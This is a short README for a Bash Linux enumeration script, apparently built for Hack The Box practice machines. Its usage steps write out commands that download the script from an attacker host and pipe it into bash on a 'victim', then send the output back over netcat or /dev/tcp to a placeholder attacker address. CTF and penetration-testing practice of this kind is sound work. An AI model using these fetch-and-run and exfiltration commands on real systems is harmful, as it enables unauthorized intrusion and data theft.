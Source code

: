 # linSurvey

GNU/Linux enumeration script written in BASH.<br>
Created to enumerate GNU/Linux machines on Hack The Box. Can possibly be used against UNIX machines.<br> 
Visuals taken from HIGH ON COFFEE'S enumeration script. 

HOW TO USE:
1. Upload script to victim:
   1. bash linSurvey.sh
   2. (as needed) bash linSurvey.sh | tee /tmp/linSurvey.txt (saves a file on victim machine)
  
2. Use wget and pipe to bash:
   1. wget YOUR_IP_ADDR/linSurvey.sh -O- | bash
   2. The following transfers the output to your attack machine (no files on victim)
      1. <b>On Attack machine:</b> nc -nvvls YOUR_IP_ADDR -p YOUR_PORT > linSurvey.txt && cat linSurvey.txt
      2. <b>On Attack machine:</b> python3 -m http.server 80
      3. <b>On Victim:</b> wget YOUR_IP_ADDR/linSurvey.sh -O- | bash | nc -nvvq1 YOUR_IP_ADDR YOUR_PORT
      4. <b>On Victim:</b> (IF NO NETCAT) wget YOUR_IP_ADDR/linSurvey.sh -O- | bash > /dev/tcp/YOUR_IP_ADDR/YOUR_PORT (AS NEEDED)

  
  Enjoy

